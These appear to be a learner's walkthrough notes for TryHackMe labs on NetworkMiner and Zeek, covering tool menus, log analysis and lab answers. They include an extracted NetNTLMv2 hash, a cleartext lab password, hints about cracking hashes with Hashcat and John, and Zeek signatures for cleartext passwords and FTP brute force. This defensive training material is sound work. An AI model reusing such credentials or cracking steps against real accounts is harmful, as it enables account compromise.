You can sort the identified hosts by using the sort menu. You can change the colour of the hosts as well. Some of the features (OSINT lookup) are available only in premium mode. The right-click menu also helps you to copy the selected value.

**Sessions**

The session menu shows detected sessions in the pcap file. This section provides information on;

- Frame number
- Client and server address
- Source and destination port  
- Protocol
- Start time

You can search for keywords inside frames with the help of the filtering bar. It is possible to filter specific columns of the session menu as well. This menu accepts four types of inputs;  

- "ExactPhrase"
- "AllWords"
- "AnyWord"
- "RegExe"

**DNS**

The DNS menu shows DNS queries with details. This section provides information on;

- Frame number
- Timestamp
- Client and server
- Source and destination port 
- IP TTL
- DNS time
- Transaction ID and type
- DNS query and answer
- Alexa Top 1M

Some of the features (Alexa Top 1M) are available only in premium mode. The search bar is available here as well.

**Credentials**

The credentials menu shows extracted credentials and password [hashes](https://tryhackme.com/room/hashingcrypto101) from investigated pcaps. You can use [Hashcat](https://tryhackme.com/room/crackthehashlevel2) ([GitHub](https://github.com/hashcat/hashcat)) and [John the Ripper](https://tryhackme.com/room/johntheripper0) ([GitHub](https://github.com/openwall/john)) to decrypt extracted credentials. NetworkMiner can extract credentials including;  

- Kerberos hashes
- NTLM hashes
- RDP cookies
- HTTP cookies  
- HTTP requests
- IMAP
- FTP
- SMTP
- MS SQL

The right-click menu is helpful in this part as well. You can easily copy the username and password values.


**Questions**

Use mx-3.pcap

What is the total number of frames?
- Right click the file in the Case Panel and click show metadata
- 460

How many IP addresses use the same MAC address with host 145.253.2.203?
- On the Hosts tab expand the IP address 145.253.2.203 then expand the MAC
- 2 

How many packets were sent from host 65.208.228.223?
- On the Hosts tab expand the IP address
- 72

What is the name of the webserver banner under host 65.208.228.223?
- On the Hosts tab expand the IP address then expand the Host Details
- Apache

Use mx-4.pcap

What is the extracted username?
- On the Credentials tab look at the Username column
- #B\Administrator

What is the extracted password?
- Right click the second line and copy the password
- `$NETNTLMv2$#B$136B077D942D9A63$FBFF3C253926907AAAAD670A9037F2A5$01010000000000000094D71AE38CD60170A8D571127AE49E00000000020004003300420001001E003000310035003600360053002D00570049004E00310036002D004900520004001E0074006800720065006500620065006500730063006F002E0063006F006D0003003E003000310035003600360073002D00770069006E00310036002D00690072002E0074006800720065006500620065006500730063006F002E0063006F006D0005001E0074006800720065006500620065006500730063006F002E0063006F006D00070008000094D71AE38CD601060004000200000008003000300000000000000000000000003000009050B30CECBEBD73F501D6A2B88286851A6E84DDFAE1211D512A6A5A72594D340A001000000000000000000000000000000000000900220063006900660073002F003100370032002E00310036002E00360036002E0033003600000000000000000000000000`

### _**Tool Overview 2**_

**Files**

The file menu shows extracted files from investigated pcaps. This section provides information on;

- Frame number
- Filename
- Extension
- Size
- Source and destination address
- Source and destination port
- Protocol
- Timestamp
- Reconstructed path
- Details

Some features (OSINT hash lookup and sample submission) are available only in premium mode. The search bar is available here as well. The right-click menu is helpful in this part as well. You can easily open files and folders and view the file details in-depth.

**Images**

The file menu shows extracted images from investigated pcaps. The right-click menu is helpful in this part as well. You can open files and zoom in & out easily.

Once you hover over the image, it shows the file's detailed information (source & destination address and file path).

**Parameters**

The file menu shows extracted parameters from investigated pcaps. This section provides information on;

- Parameter name
- Parameter value
- Frame number
- Source and destination host
- Source and destination port
- Timestamp
- Details

The right-click menu is helpful in this part as well. You can copy the parameters and values easily.

**Keywords**

The file menu shows extracted keywords from investigated pcaps. This section provides information on;

- Frame number
- Timestamp
- Keyword
- Context
- Source and destination host
- source and destination port

How to filter keywords;

- Add keywords
- Reload case files!

**Note:** You can filter multiple keywords in this section; however, you must reload the case files after updating the search keywords. Keyword search investigates all possible data in the processed pcaps.

**Messages**

The messages menu shows extracted emails, chats and messages from investigated pcaps. This section provides information on;

- Frame number
- Source and destination host 
- Protocol
- Sender (From)
- Receiver (To)
- Timestamp
- Size

Once you filter the traffic and get a hit, you will discover additional details like attachments and attributes on the selected message. Note that the search bar is available here as well. The right-click menu is available here. You can use the built-in viewer to investigate overall information and the "open file" option to explore attachments.

**Anomalies**

The anomalies menu shows detected anomalies in the processed pcap. Note that NetworkMiner isn't designated as an IDS. However, developers added some detections for EternalBlue exploit and spoofing attempts.

**Questions**

Use mx-7 pcap

What is the name of the Linux distro mentioned in the file associated with frame 63075? 
- On the Files tab enter the frame number in the Filter Keyword and click apply. Look at the Source Host
- centos

What is the header of the page associated with frame 75942?
- On the Files tab enter the frame number in the Filter Keyword and click apply. Right click and open File Details. Look for `<h1>`
- Password-Ned AB

What is the source address of the image "ads.bmp.2E5F0FD9.bmp"?
- On the Files tab enter the file name in the Filter Keyword and click apply. Look at the Source Host
- 80.239.178.187

What is the frame number of the possible TLS anomaly?
- On the Anomalies tab look at the frame number
- 36255

Use mx-9 file

Look at the messages. Which platform sent a password reset email?
- How? No password reset email but only 1 email with password in it.
- facebook

What is the email address of Branson Matheson?
- On the Messages tab look at the From column
- branson@sandsite.org

### _**Version Differences**_

As always, it wouldn't be surprising to see a feature improvement as the version goes up. Unsurprisingly version upgrades provide stability, security fixes and features. Here the feature part is quite tricky. Feature upgrades can represent implementing new features and updating the existing feature (optimisation, alteration or operation mode modification). You can always check the changelog [here](https://www.netresec.com/?page=NetworkMiner).  

Since there are some significant differences between the versions, the given VM has both of the major versions (v1.6 and v2.7).

Of course, as the program version increases, it is expected to increase feature increase and scope. Here are the significant differences between versions 1.6 and 2.7. Here are the differences;

**Mac Address Processing**

NetworkMiner versions after version 2 can process MAC address specific correlation as shown in the picture below. This option will help you identify if there is a MAC Address conflict. This feature is not available before version 2.

**Sent/Received Packet Processing**

NetwrokMiner versions up to version 1.6. can handle packets in much detail. These options will help you investigate the sent/received packets in a more detailed format. This feature is not available after version 1.6.

**Frame Processing**

NetworkMiner versions up to version 1.6. can handle frames. This option provides the number of frames and essential details about the frames. This feature is not available after version 1.6.

**Parameter Processing**

NetworkMiner versions after version 2 can handle parameters in a much more extensive form. Therefore version 1.6.xx catches fewer parameters than version 2.

**Cleartext Processing**

NetworkMiner versions up to version 1.6. can handle cleartext data. This option provides all extracted cleartext data in a single tab; it is beneficial to investigate cleartext data about the traffic data. However, it is impossible to match the cleartext data and packets. This feature is not available after version 1.6.

Which version can detect duplicate MAC addresses?
- 2.7

Which version can handle frames?
- 1.6

Which version can provide more details on packet details?
- 1.6

### _**Exercises**_

Use case1.pcap

What is the OS name of the host 131.151.37.122?
- Windows - Windows NT 4

Investigate the hosts 131.151.37.122 and 131.151.32.91.
How many data bytes were received from host 131.151.32.91 to host 131.151.37.122 through port 1065?
- Network Miner 2.7.2, On the Hosts tab expand the 122 host, expand the Incoming sessions, expand the tcp 1065 
- 192

Investigate the hosts 131.151.37.122 and 131.151.32.21.
How many data bytes were received from host 131.151.37.122 to host 131.151.32.21 through port 143?
- On Hosts tab expand 122 host, expand Incoming sessions, expand TCP 143
- 20769

What is the sequence number of frame 9?
- Netowrk Miner 1.6.1, on the Frames tab, expand Frame 9, expand TCP
- 2AD77400

What is the number of the detected "content types"?
- ??? Not sure how to find this
- 2

Use case2.pcap
Investigate the files.

What is the USB product's brand name?
- On the Images tab look for the usb device, hover to see details
- asix

What is the name of the phone model?
- On the Images tab look for the phone, hover to see details
- lumia 535

What is the source IP of the fish image?
- On the Images tab look for the fish, hover to see details
- 50.22.95.9

What is the password of the "homer.pwned.se@gmx.com"?
- On the Credentials tab look for the username
- spring2015

What is the DNS Query of frame 62001?
- On the DNS tab, enter frame number for keyword then choose frame number for the column then hit apply
- pop.gmx.com

### _**Conclusion**_

In this room, we covered NetworkMiner, what it is, how it operates, and how to investigate pcap files. As I mentioned in the tasks before, there are a few things to remember about the NetworkMiner;  

- Don't use this tool as a primary sniffer.
- Use this tool to overview the traffic, then move forward with Wireshark and tcpdump for a more in-depth investigation.

If you like this content, make sure you visit the following rooms later on THM;

- [**Wireshark**](https://tryhackme.com/room/wireshark)
- [**Snort**](https://tryhackme.com/room/snort)
- [**Brim**](https://tryhackme.com/room/brim)

## **--Zeek--**

### _**Introduction**_

Zeek (formerly Bro) is an open-source and commercial network monitoring tool (traffic analyser).

[The official description;](https://docs.zeek.org/en/master/about.html) "Zeek (formerly Bro) is the world's leading platform for network security monitoring. Flexible, open-source, and powered by defenders." "Zeek is a passive, open-source network traffic analyser. Many operators use Zeek as a network security monitor (NSM) to support suspicious or malicious activity investigations. Zeek also supports a wide range of traffic analysis tasks beyond the security domain, including performance measurement and troubleshooting."

### _**Network Security Monitoring and Zeek**_

**Introduction to Network Monitoring Approaches**  

Network monitoring is a set of management actions to watch/continuously overview and optionally save the network traffic for further investigation. This action aims to detect and reduce network problems, improve performance, and in some cases, increase overall productivity. It is a main part of the daily IT/SOC operations and differs from Network Security Monitoring (NSM) in its purpose.

_Network Monitoring_

Network monitoring is highly focused on IT assets like uptime (availability), device health and connection quality (performance), and network traffic balance and management (configuration). Monitoring and visualising the network traffic, troubleshooting, and root cause analysis are also part of the Network Monitoring process**.** This model is helpful for network administrators and usually doesn't cover identifying non-asset in-depth vulnerabilities and significant security concerns like internal threats and zero-day vulnerabilities. Usually, Network Monitoring is not within the SOC scope. It is linked to the enterprise IT/Network management team.  

_Network Security Monitoring_

Network Security Monitoring is focused on network anomalies like rogue hosts, encrypted traffic, suspicious service and port usage, and malicious/suspicious traffic patterns in an intrusion/anomaly detection and response approach. Monitoring and visualising the network traffic and investigating suspicious events is a core part of Network Security Monitoring. This model is helpful for security analysts/incident responders, security engineers and threat hunters and covers identifying threats, vulnerabilities and security issues with a set of rules, signatures and patterns. Network Security Monitoring is part of the SOC, and the actions are separated between tier 1-2-3 analyst levels.  

**What is ZEEK?**

Zeek (formerly Bro) is an open-source and commercial passive Network Monitoring tool (traffic analysis framework) developed by Lawrence Berkeley Labs. Today, Zeek is supported by several developers, and Corelight provides an Enterprise-ready fork of Zeek. Therefore this tool is called both open source and commercial. The differences between the open-source version and the commercial version are detailed [here](https://corelight.com/products/compare-to-open-source-zeek?hsLang=en).

Zeek differs from known monitoring and IDS/IPS tools by providing a wide range of detailed logs ready to investigate both for forensics and data analysis actions. Currently, Zeek provides 50+ logs in 7 categories.

**Zeek vs Snort**

While both are called IDS/NIDS, it is good to know the cons and pros of each tool and use them in a specific manner. While there are some overlapping functionalities, they have different purposes for usage.


**Zeek Architecture**  

Zeek has two primary layers; "Event Engine" and "Policy Script Interpreter". The Event Engine layer is where the packets are processed; it is called the event core and is responsible for describing the event without focusing on event details. It is where the packages are divided into parts such as source and destination addresses, protocol identification, session analysis and file extraction. The Policy Script Interpreter layer is where the semantic analysis is conducted. It is responsible for describing the event correlations by using Zeek scripts.


**Zeek Frameworks**

Zeek has several frameworks to provide extended functionality in the scripting layer. These frameworks enhance Zeek's flexibility and compatibility with other network components. Each framework focuses on the specific use case and easily runs with Zeek installation. For instance, we will be using the "Logging Framework" for all cases. Having ide on each framework's functionality can help users quickly identify an event of interest. 

**Available Frameworks**


You can read more on frameworks [**here**](https://docs.zeek.org/en/master/frameworks/index.html). 

**Zeek Outputs**

As mentioned before, Zeek provides 50+ log files under seven different categories, which are helpful in various areas such as traffic monitoring, intrusion detection, threat hunting and web analytics. This section is not intended to discuss the logs in-depth. The logs are covered in **TASK 3**.  

Once you run Zeek, it will automatically start investigating the traffic or the given pcap file and generate logs automatically. Once you process a pcap with Zeek, it will create the logs in the working directory. If you run the Zeek as a service, your logs will be located in the default log path. The default log path is: `/opt/zeek/logs/` 

**Working with Zeek**

There are two operation options for Zeek. The first one is running it as a service, and the second option is running the Zeek against a pcap. Before starting working with Zeek, let's check the version of the Zeek instance with the following command: `zeek -v`

Now we are sure that we have Zeek installed. Let's start the Zeek as a service! To do this, we need to use the "ZeekControl" module, as shown below. The "ZeekControl" module requires superuser permissions to use. You can elevate the session privileges and switch to the superuser account to examine the generated log files with the following command: `sudo su`

Here we can manage the Zeek service and view the status of the service. Primary management of the Zeek service is done with three commands; "status", "start", and "stop".

```
root@ubuntu$ zeekctl
Welcome to ZeekControl 2.X.0
[ZeekControl] > status
Name         Type       Host          Status    Pid    Started
zeek         standalone localhost     stopped
[ZeekControl] > start
starting zeek ...
[ZeekControl] > status
Name         Type       Host          Status    Pid    Started
zeek         standalone localhost     running   2541   13 Mar 18:25:08
[ZeekControl] > stop
stopping zeek ...
[ZeekControl] > status
Name         Type       Host          Status    Pid    Started
zeek         standalone localhost     stopped
```

You can also use the "ZeekControl" mode with the following commands as well;  

- `zeekctl status`
- `zeekctl start` 
- `zeekctl stop` 

The only way to listen to the live network traffic is using Zeek as a service. Apart from using the Zeek as a network monitoring tool, we can also use it as a packet investigator. To do so, we need to process the pcap files with Zeek, as shown below. Once you process a pcap file, Zeek automatically creates log files according to the traffic.  

In pcap processing mode (`zeek -C -r sample.pcap`), logs are saved in the working directory.  You can view the generated logs using the `ls -l` command.

```
root@ubuntu$ zeek -C -r sample.pcap 

root@ubuntu$ ls -l
-rw-r--r-- 1 ubuntu ubuntu  11366 Mar 13 20:45 conn.log
-rw-r--r-- 1 ubuntu ubuntu    763 Mar 13 20:45 dhcp.log
-rw-r--r-- 1 ubuntu ubuntu   2918 Mar 13 20:45 dns.log
-rw-r--r-- 1 ubuntu ubuntu    254 Mar 13 20:45 packet_filter.log 
```

Main Zeek command line parameters are explained below;


Investigating the generated logs will require command-line tools (cat, cut, grep sort, and uniq) and additional tools (zeek-cut). We will cover them in the following tasks.

**Questions**

Each exercise has a folder. Ensure you are in the right directory to find the pcap file and accompanying files. Desktop/Exercise-Files/TASK-2

No answer needed

What is the installed Zeek instance version number?
- `zeek -v`
- 4.2.1

What is the version of the ZeekControl module?
- `zeekctl`
2.4.0

Investigate the "sample.pcap" file. What is the number of generated alert files?
- `cd Desktop/Exerciese-Files/TASK-2/`
- `zeek -C -r sample.pcap`
- `ls -lah |grep "\.log" |wc -l`
- 8

### _**Zeek Logs**_

Zeek generates log files according to the traffic data. You will have logs for every connection in the wire, including the application level protocols and fields. Zeek is capable of identifying 50+ logs and categorising them into seven categories. Zeek logs are well structured and tab-separated ASCII files, so reading and processing them is easy but requires effort. You should be familiar with networking and protocols to correlate the logs in an investigation, know where to focus, and find a specific piece of evidence.

Each log output consists of multiple fields, and each field holds a different part of the traffic data. Correlation is done through a unique value called "UID". The "UID" represents the unique identifier assigned to each session.

**Zeek logs in a nutshell**



Please refer to [Zeek's official documentation](https://docs.zeek.org/en/current/script-reference/log-files.html) and [Corelight log cheat sheet](https://corelight.com/about-zeek/zeek-data) for more information. Although there are multiple log files, some log files are updated daily, and some are updated in each session. Some of the most commonly used logs are explained in the given table.


This is too much protocol and log information! Yes, it is true; a difficulty of working with Zeek is having the required network knowledge and investigation mindset. Don't worry; you can have both of these and even more knowledge by working through TryHackMe paths. Just keep the streak! 

**Brief log usage primer table**



You can categorise the logs before starting an investigation. Thus, finding the evidence/anomaly you are looking for will be easier. The given table is a brief example of using multiple log files. You can create your working model or customise the given one. Make sure you read each log description and understand the purpose to know what to expect from the corresponding log file. Note that these are not the only ones to focus on. Investigated logs are highly associated with the investigation case type and hypothesis, so do not just rely only on the logs given in the example table!

  

The table shows us how to use multiple logs to identify anomalies and run an investigation by correlating across the available logs.

  

- **Overall Info:** The aim is to review the overall connections, shared files, loaded scripts and indicators at once. This is the first step of the investigation.
- **Protocol Based:** Once you review the overall traffic and find suspicious indicators or want to conduct a more in-depth investigation, you focus on a specific protocol.
- **Detection:** Use the prebuild or custom scripts and signature outcomes to support your findings by having additional indicators or linked actions. 
- **Observation:** The summary of the hosts, services, software, and unexpected activity statistics will help you discover possible missing points and conclude the investigation.

Remember, we mention the pros and cons of the Zeek logs at the beginning of this task. Now let's demonstrate the log viewing and identify the differences between them.

**Recall 1:** Zeek logs are well structured and tab-separated ASCII files, so reading and processing them is easy but requires effort.

**Recall 2:** Investigating the generated logs will require command-line tools (cat, cut, grep sort, and uniq) and additional tools (zeek-cut). 

**Opening a Zeek log with a text editor and built-in commands**


The above image shows that reading the logs with tools is not enough to spot an anomaly quickly. Logs provide a vast amount of data to investigate and correlate. You will need to have technical knowledge and event correlation ability to carry out an investigation. It is possible to use external visualisation and correlation tools such as ELK and Splunk. We will focus on using and processing the logs with a hands-on approach in this room.

In addition to Linux command-line tools, one auxiliary program called `zeek-cut` reduces the effort of extracting specific columns from log files. Each log file provides "field names" in the beginning. This information will help you while using `zeek-cut`. Make sure that you use the "fields" and not the "types".


Let's see the "zeek-cut" in action. Let's extract the uid, protocol, source and destination hosts, and source and destination ports from the conn.log. We will first read the logs with the `cat` command and then extract the event of interest fields with `zeek-cut` auxiliary to compare the difference.

```
root@ubuntu$ cat conn.log 
...
#fields	ts	uid	id.orig_h	id.orig_p	id.resp_h	id.resp_p	proto	service	duration	orig_bytes	resp_bytes	conn_state	local_orig	local_resp	missed_bytes	history	orig_pkts	orig_ip_bytes	resp_pkts	resp_ip_bytes	tunnel_parents
#types	time	string	addr	port	addr	port	enum	string	interval	count	count	string	bool	bool	count	string	count	count	count	count	set[string]
1488571051.943250	CTMFXm1AcIsSnq2Ric	192.168.121.2	51153	192.168.120.22	53	udp	dns	0.001263	36	106	SF	-	-0	Dd	1	64	1	134	-
1488571038.380901	CLsSsA3HLB2N6uJwW	192.168.121.10	50080	192.168.120.10	514	udp	-	0.000505	234	0	S0	-	-0	D	2	290	0	0	-

root@ubuntu$ cat conn.log | zeek-cut uid proto id.orig_h id.orig_p id.resp_h id.resp_p 
CTMFXm1AcIsSnq2Ric	udp	192.168.121.2	51153	192.168.120.22	53
CLsSsA3HLB2N6uJwW	udp	192.168.121.10	50080	192.168.120.10	514
```

As shown in the above output, the "zeek-cut" auxiliary provides massive help to extract specific fields with minimal effort. Now take time to read log formats, practice the log reading/extracting operations and answer the questions.

**Questions**

Each exercise has a folder. Ensure you are in the right directory to find the pcap file and accompanying files. Desktop/Exercise-Files/TASK-3

Investigate the sample.pcap file. Investigate the dhcp.log file. What is the available hostname?

- `cd Desktop/Exercise-Files/TASK-3/`
- `ls -lah`
- `zeek -C -r sample.pcap`
- `ls -lah`
- `cat dhcp.log`
- Microknoppix

Investigate the dns.log file. What is the number of unique DNS queries?

- `cat dns.log | zeek-cut query | uniq`
- `cat dns.log | zeek-cut query | uniq | wc -l`
- 2

Investigate the conn.log file. What is the longest connection duration?

- `cat conn.log | zeek-cut duration | sort -n | tail`
- 332.319364


### _**CLI Kung-Fu Recall: Processing Zeek Logs**_

Graphical User Interfaces (GUI) are handy and good for accomplishing tasks and processing information quickly. There are multiple advantages of GUIs, especially when processing the information visually. However, when processing massive amounts of data, GUIs are not stable and as effective as the CLI (Command Line Interface) tools.

The critical point is: What if there is no "function/button/feature" for what you want to find/view/extract?

Having the power to manipulate the data at the command line is a crucial skill for analysts. Not only in this room but each time you deal with packets, you will need to use command-line tools, Berkeley Packet Filters (BPF) and regular expressions to find/view/extract the data you are looking for. This task provides quick cheat-sheet like information to help you write CLI queries for your event of interest.




### _**Zeek Signatures**_

Zeek supports signatures to have rules and event correlations to find noteworthy activities on the network. Zeek signatures use low-level pattern matching and cover conditions similar to Snort rules. Unlike Snort rules, Zeek rules are not the primary event detection point. Zeek has a scripting language and can chain multiple events to find an event of interest. We focus on the signatures in this task, and then we will focus on Zeek scripting in the following tasks.

Zeek signatures are composed of three logical paths; signature id, conditions and action. The signature breakdown is shown in the table below

| 
| Signature id | Unique signature name. |
| Conditions | Header: Filtering the packet headers for specific source and destination addresses, protocol and port numbers.Content: Filtering the packet payload for specific value/pattern. |
| Action | Default action: Create the "signatures.log" file in case of a signature match. Additional action: Trigger a Zeek script. |

Now let's dig more into the Zeek signatures. The below table provides the most common conditions and filters for the Zeek signatures.


`zeek -C -r sample.pcap -s sample.sig`


**Example | Cleartext Submission of Password**

Let's create a simple signature to detect HTTP cleartext passwords.

- HTTP Password Sample Signature
```
signature http-password {
     ip-proto == tcp
     dst_port == 80
     payload /.*password.*/
     event "Cleartext Password Found!"
}

# signature: Signature name.
# ip-proto: Filtering TCP connection.
# dst-port: Filtering destination port 80.
# payload: Filtering the "password" phrase.
# event: Signature match message.
```

Remember, Zeek signatures support regex. Regex ".*" matches any character zero or more times. The rule will match when a "password" phrase is detected in the packet payload. Once the match occurs, Zeek will generate an alert and create additional log files (signatures.log and notice.log).

- Signature Usage and Log Analysis
```
ubuntu@ubuntu$ zeek -C -r http.pcap -s http-password.sig 
ubuntu@ubuntu$ ls
clear-logs.sh  conn.log  files.log  http-password.sig  http.log  http.pcap  notice.log  packet_filter.log  signatures.log

ubuntu@ubuntu$ cat notice.log  | zeek-cut id.orig_h id.resp_h msg 
10.10.57.178	44.228.249.3	10.10.57.178: Cleartext Password Found!
10.10.57.178	44.228.249.3	10.10.57.178: Cleartext Password Found!

ubuntu@ubuntu$ cat signatures.log | zeek-cut src_addr dest_addr sig_id event_msg 
10.10.57.178		http-password	10.10.57.178: Cleartext Password Found!
10.10.57.178		http-password	10.10.57.178: Cleartext Password Found!
```

As shown in the above terminal output, the signatures.log and notice.log provide basic details and the signature message. Both of the logs also have the application banner field. So it is possible to know where the signature match occurs. Let's look at the application banner!

- Log Analysis
```
ubuntu@ubuntu$ cat signatures.log | zeek-cut sub_msg
POST /userinfo.php HTTP/1.1\x0d\x0aHost: testphp.vulnweb.com\x0d\x0aUser-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/...

ubuntu@ubuntu$ cat notice.log  | zeek-cut sub
POST /userinfo.php HTTP/1.1\x0d\x0aHost: testphp.vulnweb.com\x0d\x0aUser-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/...
```

We will demonstrate only one log file output to avoid duplication after this point. You can practice discovering the event of interest by analysing notice.log and signatures.log.

**Example | FTP Brute-force**

Let's create another rule to filter FTP traffic. This time, we will use the FTP content filter to investigate command-line inputs of the FTP traffic. The aim is to detect FTP "admin" login attempts. This basic signature will help us identify the admin login attempts and have an idea of possible admin account abuse or compromise events.

- Sample Signature
```
signature ftp-admin {
     ip-proto == tcp
     ftp /.*USER.*dmin.*/
     event "FTP Admin Login Attempt!"
}
```

Let's run the Zeek with the signature and investigate the signatures.log and notice.log.

- FTP Signature
```
ubuntu@ubuntu$ zeek -C -r ftp.pcap -s ftp-admin.sig
ubuntu@ubuntu$ cat signatures.log | zeek-cut src_addr dst_addr event_msg sub_msg | sort -r| uniq
10.234.125.254	10.121.70.151	10.234.125.254: FTP Admin Login Attempt!	USER administrator
10.234.125.254	10.121.70.151	10.234.125.254: FTP Admin Login Attempt!	USER admin 
```

Our rule shows us that there are multiple logging attempts with account names containing the "admin" phrase. The output gives us great information to notice if there is a brute-force attempt for an admin account.

This signature can be considered a case signature. While it is accurate and works fine, we need global signatures to detect the "known threats/anomalies". We will need those case-based signatures for significant and sophistical anomalies like zero-days and insider attacks in the real-life environment. Having individual rules for each case will create dozens of logs and alerts and cause missing the real anomaly. The critical point is logging logically, not logging everything.

We can improve our signature by not limiting the focus only to an admin account. In that case, we need to know how the FTP protocol works and the default response codes. If you don't know these details, please refer to [RFC documentation](https://datatracker.ietf.org/doc/html/rfc765). 

**Let's optimise our rule and make it detect all possible FTP brute-force attempts.**  

This signature will create logs for each event containing "FTP 530 response", which allows us to track the login failure events regardless of username.

- Sample Signature
```
signature ftp-brute {
     ip-proto == tcp
     payload /.*530.*Login.*incorrect.*/
     event "FTP Brute-force Attempt"
}
```

Zeek signature files can consist of multiple signatures. Therefore we can have one file for each protocol/situation/threat type. Let's demonstrate this feature in our global rule.

- Sample Signature
```
signature ftp-username {
    ip-proto == tcp
    ftp /.*USER.*/
    event "FTP Username Input Found!"
}

signature ftp-brute {
    ip-proto == tcp
     payload /.*530.*Login.*incorrect.*/
    event "FTP Brute-force Attempt!"
}
```

Let's merge both of the signatures in a single file. We will have two different signatures, and they will generate alerts according to match status. The result will show us how we benefit from this action. Again, we will need the "CLI Kung-Fu" skills to extract the event of interest.

This rule should show us two types of alerts and help us to correlate the events by having "FTP Username Input" and "FTP Brute-force Attempt" event messages. Let's investigate the logs. We're grepping the logs in range 1001-1004 to demonstrate that the first rule matches two different accounts (admin and administrator). 

- FTP Signature
```
ubuntu@ubuntu$ zeek -C -r ftp.pcap -s ftp-admin.sig
ubuntu@ubuntu$ cat notice.log | zeek-cut uid id.orig_h id.resp_h msg sub | sort -r| nl | uniq | sed -n '1001,1004p'
  1001	CeMYiaHA6AkfhSnd	10.234.125.254	10.121.70.151	10.234.125.254: FTP Username Input Found!	USER admin
  1002	CeMYiaHA6AkfhSnd	10.234.125.254	10.121.70.151	10.121.70.151: FTP Brute-force Attempt!	530 Login incorrect.
  1003	CeDTDZ2erDNF5w7dyf	10.234.125.254	10.121.70.151	10.234.125.254: FTP Username Input Found!	USER administrator
  1004	CeDTDZ2erDNF5w7dyf	10.234.125.254	10.121.70.151	10.121.70.151: FTP Brute-force Attempt!	530 Login incorrect.
```

**Snort Rules in Zeek?**  

While Zeek was known as Bro, it supported Snort rules with a script called snort2bro, which converted Snort rules to Bro signatures. However, after the rebranding, workflows between the two platforms have changed. [The official Zeek document](https://docs.zeek.org/en/master/frameworks/signatures.html) mentions that the script is no longer supported and is not a part of the Zeek distribution.

**Questions**

Each exercise has a folder. Ensure you are in the right directory to find the pcap file and accompanying files. Desktop/Exercise-Files/TASK-5

Investigate the http.pcap file. Create the  HTTP signature shown in the task and investigate the pcap. What is the source IP of the first event?

- `cd Desktop/Exercise-Files/TASK-5/`
- `ls -lah`
- `cd http/`
- `cat http-password.sig`
- `vi http-password.sig`
```
signature http-password {
     ip-proto == tcp
     dst_port == 80
     payload /.*password.*/
     event "Cleartext Password Found!"
}
```
- `zeek -C -r http.pcap -s http-password.sig`
- `cat notice.log | zeek-cut id.orig_h msg`
- 10.10.57.178

What is the source port of the second event?

- `cat notice.log | zeek-cut id.orig_h id.orig_p msg`
- 38712

Investigate the conn.log.
What is the total number of the sent and received packets from source port 38706?

- `cat conn.log | zeek-cut id.orig_p orig_pkts resp_pkts|grep 38706`
- 20

Create the global rule shown in the task and investigate the ftp.pcap file.

Investigate the notice.log. What is the number of unique events?

- `cd Desktop/Exercise-Files/TASK-5/`
- `ls -lah`
- `cd ftp/`
- `ls -lah`
- `vi ftp-bruteforce.sig`
```
signature ftp-username {
    ip-proto == tcp
    ftp /.*USER.*/
    event "FTP Username Input Found!"
}

signature ftp-brute {
    ip-proto == tcp
     payload /.*530.*Login.*incorrect.*/
    event "FTP Brute-force Attempt!"
}
```
- `zeek -C -r ftp.pcap -s ftp-bruteforce.sig`
- `cat notice.log | zeek-cut uid | sort -u | wc -l`
- `cat notice.log | zeek-cut uid | sort | uniq | wc -l`
- 1413

What is the number of ftp-brute signature matches?

- `cat notice.log | zeek-cut id.orig_h id.orig_p id.resp_h id.resp_p msg |grep "Brute" | wc -l`
- `cat notice.log | zeek-cut uid msg | grep "Brute" | wc -l`
- 1410


### _**Zeek Scripts | Fundamentals**_

Zeek has its own event-driven scripting language, which is as powerful as high-level languages and allows us to investigate and correlate the detected events. Since it is as capable as high-level programming languages, you will need to spend time on Zeek scripting language in order to become proficient. In this room, we will cover the basics of Zeek scripting to help you understand, modify and create basic scripts. Note that scripts can be used to apply a policy and in this case, they are called policy scripts.


- Zeek scripts use the ".zeek" extension.  
- Do not modify anything under the "zeek/base" directory. User-generated and modified scripts should be in the "zeek/site" directory.
- You can call scripts in live monitoring mode by loading them with the command `load @/script/path` or `load @script-name` in local.zeek file.    
- Zeek is event-oriented, not packet-oriented! We need to use/write scripts to handle the event of interest.

running Zeek with signature

`zeek -C -r sample.pcap -s sample.sig`

**GUI vs Scripts**  

Have you ever thought about automating tasks in Wireshark, tshark or tcpdump? Zeek provides that chance to us with its scripting power. Let's say we need to extract all available DHCP hostnames from a pcap file. In that case, we have several options like using tcpdump, Wireshark, tshark or Zeek. 

Let's see Wireshark on the stage first. You can have the same information with Wireshark. However, while this information can be extracted using Wireshark is not easy to transfer the data to another tool for processing. Tcpdump and tshark are command-line tools, and it is easy to extract and transfer the data to another tool for processing and correlating.

- extracting hostnames with tcpdump and tshark
```
ubuntu@ubuntu$ sudo tcpdump -ntr smallFlows.pcap port 67 or port 68 -e -vv | grep 'Hostname Option' | awk -F: '{print $2}' | sort -nr | uniq | nl
     1	 "vinlap01"
     2	 "student01-PC"
ubuntu@ubuntu$ tshark -V -r smallFlows.pcap -Y "udp.port==67 or udp.port==68" -T fields -e dhcp.option.hostname | nl | awk NF
     1	student01-PC
     2	vinlap01
```

Now let's see Zeek scripts in action. First, let's look at the components of the Zeek script. Here the first, second and fourth lines are the predefined syntaxes of the scripting language. The only part we created is the third line which tells Zeek to extract DHCP hostnames. Now compare this automation ease with the rest of the methods. Obviously, this four-line script is easier to create and use. While tcpdump and tshark can provide similar results, transferring uncontrolled data through multiple pipelines is not much preferred.

```
event dhcp_message (c: connection, is_orig: bool, msg: DHCP::Msg, options: DHCP::Options)
{
print options$host_name;
}
```

Now let's use the Zeek script and see the output.

```
ubuntu@ubuntu$ zeek -C -r smallFlows.pcap dhcp-hostname.zeek 
student01-PC
vinlap01
```

The provided outputs show that our script works fine and can extract the requested information. This should show why Zeek is helpful in data extraction and correlation. Note that Zeek scripting is a programming language itself, and we are not covering the fundamentals of Zeek scripting. In this room, we will cover the logic of Zeek scripting and how to use Zeek scripts. You can learn and practice the Zeek scripting language by using [Zeek's official training platform](https://try.bro.org/#/?example=hello) for free.

There are multiple options to trigger conditions in Zeek. Zeek can use "Built-In Function" (Bif) and protocols to extract information from traffic data. You can find supported protocols and Bif either by looking in your setup or visiting the [Zeek repo](https://docs.zeek.org/en/master/script-reference/scripts.html).

**Customized script locations**
- /opt/zeek/share/zeek/base/bif
- /opt/zeek/share/zeek/base/bif/plugins
- /opt/zeek/share/zeek/base/protocols

**Questions**

